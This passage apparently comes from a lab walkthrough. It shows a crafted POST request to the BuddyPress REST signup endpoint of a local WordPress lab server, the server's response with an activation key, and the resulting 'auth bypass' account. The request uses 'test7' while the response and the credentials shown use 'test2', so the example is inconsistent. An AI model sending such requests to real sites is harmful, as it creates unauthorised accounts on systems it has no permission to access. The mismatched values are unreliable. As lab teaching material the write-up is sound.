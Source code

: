 

Creating a user account with auth bypass
/buddypress/v1/signup is the endpoint to create a user account

We will craft a request to create an account.

![This is an image](https://github.com/warren2i/docker/blob/master/lab%20pics/4.png?raw=true)

Let's craft the request.


```
POST /wp-json/buddypress/v1/signup HTTP/1.1
HOST: 192.168.0.16:7006
Content-Type: application/json; charset=UTF-8
Content-Length: 107

{
"user_login": "test7",
"user_email": "test7@test.com",
"user_name": "test7",
"password": "test7"
}
```

 
Response
```
Response
HTTP/1.1 200 OK
Date: Wed, 11 Jan 2023 20:45:36 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.21
X-Robots-Tag: noindex
Link: <http://192.168.0.16:7006/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Allow: POST
Content-Length: 266
Content-Type: application/json; charset=UTF-8



[{"id":7,"user_login":"test2","registered":"2023-01-11T20:45:36","user_name":"test2","activation_key":"tg2WcJEbkzRnOBwwRjzPDYN05qpJPL1L","user_email":"test2@test.com","date_sent":"2023-01-11T20:45:36","count_sent":1,"meta":{"field_1":"test2","profile_field_ids":1}}]
```

Excellent we  have created an account with the creds
```
"user_login": "test2", 
"user_email": "test2@test.com", 
"user_name": "test2", 
"password": "test2"
```
